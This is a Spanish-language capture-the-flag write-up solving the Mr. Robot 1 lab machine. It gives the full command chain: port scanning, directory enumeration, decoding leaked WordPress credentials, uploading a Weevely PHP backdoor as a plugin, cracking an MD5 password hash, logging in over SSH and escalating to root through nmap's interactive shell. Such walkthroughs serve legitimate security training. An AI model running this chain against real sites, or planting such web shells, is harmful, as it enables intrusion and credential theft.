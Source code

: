 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=3CF700FF&width=400&height=80&lines=MR.ROBOT_1"></a>
</p>
  
<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/mr-robot-1,151/

**[Online]:**

Root-Me: https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/test?lang=es

<h1 align="center"></h1>

</br>

- *Paso 1:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -Pn -vvv ctf14.root-me.org
```
![1](https://user-images.githubusercontent.com/75953873/173256530-9e554740-e9d2-450e-8e1a-209d773c7247.png)

Puertos abiertos: [22,80,443]

- *Paso 2:* Enumerar directorios web con Dirb. 
```
dirb http://ctf14.root-me.org /usr/share/dirb/wordlists/small.txt
```
![2](https://user-images.githubusercontent.com/75953873/173256804-380ff8a7-8b69-4153-8ee8-8c1eb7c8eb0d.png)

URL objetivo: http://ctf14.root-me.org/license

![3](https://user-images.githubusercontent.com/75953873/173256860-82d25cc3-6a8c-4e59-97a8-cbe263df5162.png)

Credenciales ofuscadas a base64: **ZWxsaW90OkVSMjgtMDY1Mgo=**

- *Paso 3:* Decodificar credenciales con Python y Bash.

`Python:`
```python
import base64
key = 'ZWxsaW90OkVSMjgtMDY1Mgo='
print(base64.b64decode(key))
```

`Bash:`
```
echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d
```
![4](https://user-images.githubusercontent.com/75953873/173257252-c7dac9d3-f612-44ff-b31b-9d9baf5d297e.png)

Usuario: `elliot`

Contraseña: `ER28-0652`

- *Paso 4:* Acceder al panel de administración de WordPress, generalmente se agrega `/wp-admin.php` o `/wp-login.php` al final del dominio.
```
http://ctf14.root-me.org/wp-login.php
```
![5](https://user-images.githubusercontent.com/75953873/173257567-b73aa894-5756-41d1-b73b-f31db5de3f3d.png)

Plugins **>** instalar plugins

![6](https://user-images.githubusercontent.com/75953873/173257615-a9b95d88-ca5a-4a92-95a3-3391c4bd38a3.png)

Agregar nuevo plugin **>** Subir plugin

![7](https://user-images.githubusercontent.com/75953873/173257639-ce85dec7-fc54-4830-88b4-f040fa379b14.png)

- *Paso 5:* Crear backdoor con Weevely.
```
weevely generate pass123 backdoor.php
```
![8](https://user-images.githubusercontent.com/75953873/173257694-583bc09c-8970-45bf-abd2-cd033643ef74.png)

- *Paso 6:* Subir backdoor como un plugin más.

![9](https://user-images.githubusercontent.com/75953873/173257782-8da08f9d-c687-458c-a84e-bb0cfd0ae0d0.png)

En el apartado de `Media` tenemos archivos e imágenes, el que nos interesa es el `backdoor.php` que acabamos de subir. Doble clic sobre él y copiamos la URL que esta en `Description`.

![10](https://user-images.githubusercontent.com/75953873/173257806-03d06d7d-9f12-4d0a-896a-daa654620609.png)

![11](https://user-images.githubusercontent.com/75953873/173257849-3f3aa920-9d27-4dd6-88fa-e26396948493.png)

URL: http://ctf14.root-me.org/wp-content/uploads/2022/06/backdoor.php

- *Paso 7:* Acceder al backdoor con Weevely.
```
weevely http://ctf14.root-me.org/wp-content/uploads/2022/06/backdoor.php pass123
```
![12](https://user-images.githubusercontent.com/75953873/173257930-15d0189a-e1bd-4a23-84df-7b79357ae5f5.png)

Entramos al direcorio `/home` **>** robot **>** `cat` para mostrar el contenido del archivo `password.raw-md5`.

![13](https://user-images.githubusercontent.com/75953873/173258021-b8bb555d-5578-4f35-a6ed-89c0c0a08a17.png)

Hash: `c3fcd3d76192e4007dfb496cca67e13b`

- *Paso 8:* Identificación de tipo de hash con Hash-Identifier.
```
hash-identifier
```
![14](https://user-images.githubusercontent.com/75953873/173258174-b4dc146e-bba1-4433-b52f-343b83020f9d.png)

Tipo de hash: **MD5**

- *Paso 9:* Desencriptar hash con JohnTheRipper y de forma online.

`JohnTheRipper:`
```
john --format=Raw-MD5 --wordlist=/home/whoami/crackMD5.txt hash.txt
```
![16](https://user-images.githubusercontent.com/75953873/173258469-18fcf953-77ba-4c07-b2e9-692086788ec8.png)

`Online:`
- https://hashtoolkit.com/decrypt-md5-hash/

![15](https://user-images.githubusercontent.com/75953873/173258477-324ff102-6b01-4c81-807b-6148b9fccbdd.png)

Clave desencriptada: 	`abcdefghijklmnopqrstuvwxyz`

- *Paso 10:* Acceder al servidor SSH remotamente, la contraseña es el hash descifrado.
```
ssh robot@ctf14.root-me.org 
```
![16](https://user-images.githubusercontent.com/75953873/173258600-90109f0c-79be-4b1d-b7a4-81e1f00e221f.png)

Entramos al direcorio `/usr/local/bin` e interactuamos con nmap.
```
cd /usr/local/bin
nmap --interactive
```
![18](https://user-images.githubusercontent.com/75953873/173258664-e6ba0c73-db36-4979-8844-351e89df0eeb.png)

Por último, escalamos privilegios con nmap y extraemos la llave (flag) del fichero `passwd`.
```
!sh
cat /passwd
```
![19](https://user-images.githubusercontent.com/75953873/173258754-b48703a8-ceef-46df-bd32-1979ec294639.png)

**FLAG:** 9e5ddd93d307150a16a03d56ff319c6d

![8](https://user-images.githubusercontent.com/75953873/172520842-29a1669f-f89d-44b4-a818-297d7b1b472f.png)
